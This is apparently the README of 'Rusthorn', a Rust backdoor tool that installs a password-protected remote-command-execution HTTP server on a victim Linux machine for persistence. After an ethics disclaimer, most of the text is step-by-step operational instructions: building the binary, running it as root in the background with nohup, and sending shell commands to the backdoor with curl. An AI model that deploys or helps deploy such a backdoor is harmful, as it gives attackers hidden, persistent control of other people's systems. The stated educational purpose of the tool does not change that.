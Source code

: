 # Rusthorn

This tool facilitates persistence via creating a password-protected RCE-vulnerable HTTP server.


## A Note & Disclaimer on Risk, Legality and Ethicality
**Rusthorn** is a powerful tool that can be used to facilitate persistence via a password-protected remote code execution (RCE) vulnerability. However, it is important to note that this tool **behaves similarly to command-and-control (C2) malware**, and its usage on any system without explicit authorization is **illegal and unethical**.

This tool was designed for educational purposes and is intended to be used only in controlled environments where you have proper authorization. This includes security research, penetration testing with permission, and similar ethical use cases. **It is imperative that you understand the legal and ethical implications of using such tools**.

**This tool must NEVER be used for for-profit reasons or military applications**.

Using this tool on unauthorized systems is a violation of the law and can lead to serious consequences. Additionally, deploying it on your personal network or any environment that is not properly secured could expose your systems to significant security risks, including data breaches or full-system compromise.

Please use this tool responsibly.
## Setup

You will need an attacker machine that can run cargo (or precompile your binary on such a machine) and a victim machine where you have root auth level.
This tool runs by default on Linux x86-x64. It's possible to compile this code for other devices with the proper documentation.

First of all clone the repo:

``` bash
git clone https://github.com/XoanOuteiro/rusthorn
```

Then you will need to modify the PSSWD and PORT constants on /src/main.rs:

``` rust
// constants for auth, configs
const PSSWD: &str = "supersecret"; // change this before compile
const PORT: u16 = 11312; // change this before compile
```

(These are the default values)

Then go back to the root folder and run:

``` bash
cargo build --release
```

Your binary will be ready at /target/release/rusthorn
In the future, a compiler script will be implemented to avoid these steps.


## Usage

Transfer the binary to the victim's computer and run it as root:

``` bash
chmod +x (pathToRusthorn)
./rusthorn &
```

You may also want to run it via nohup:

``` bash
nohup ./rusthorn &> /dev/null &
```

## Interaction at v0.1

By default your backdoor will be running at 0.0.0.0 in the victim machine, meaning it should be reachable from any net its interfaces are connected to.
You can easily interact with your backdoor via curl, remember to pass your password or your commands will be rejected. You may use this template:

``` bash
curl -b "pswd=[PASSWORD]" http://[ip]:[PORT]/[command]
```

Rusthorn interprets "+" in the URL as whitespace, so that character may be used if a command requires whitespaces to add flags.

## Interaction at >v0.1

Due to better security you will need to clone and configure the OPC tool to interact with higher versions of Rusthorn:

https://github.com/XoanOuteiro/OPC
